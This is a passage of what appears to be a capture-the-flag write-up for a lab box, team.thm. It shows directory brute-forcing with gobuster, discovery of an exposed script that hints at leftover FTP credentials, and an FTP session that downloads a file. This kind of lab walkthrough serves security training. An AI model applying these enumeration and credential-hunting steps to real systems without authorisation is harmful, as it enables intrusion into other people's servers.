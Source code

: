 ```
$ curl http://team.thm/robots.txt
dale
```
The /scripts directory there... is not linked from the web page... we should dig deeper.

```
$ gobuster dir -u team.thm/scripts/ -x txt,php -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
...
/script.txt (Status: 200)
```
The result is interesting, a nice script.txt with valuable content

```
$ curl http://team.thm/scripts/script.txt

#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```
Now the content of the file is telling us that the file script.old has the credentials for the ftp server. Small disclaimer here, I haven't found the script.txt or script.old files until I already had user access to the box, though I'm including this steps as anyone else could have found it and I think the box is more beginner friendly if you find this evidence first.

### Exploring the ftp content
After getting inside the ftp we found a file named New_site.txt.
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15 20:25 workshare
226 Directory send OK.
ftp> cd workshare
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1002     1002          269 Jan 15 20:24 New_site.txt
226 Directory send OK.
ftp> get New_site.txt
local: New_site.txt remote: New_site.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for New_site.txt (269 bytes).
226 Transfer complete.
269 bytes received in 0.01 secs (21.4480 kB/s)
```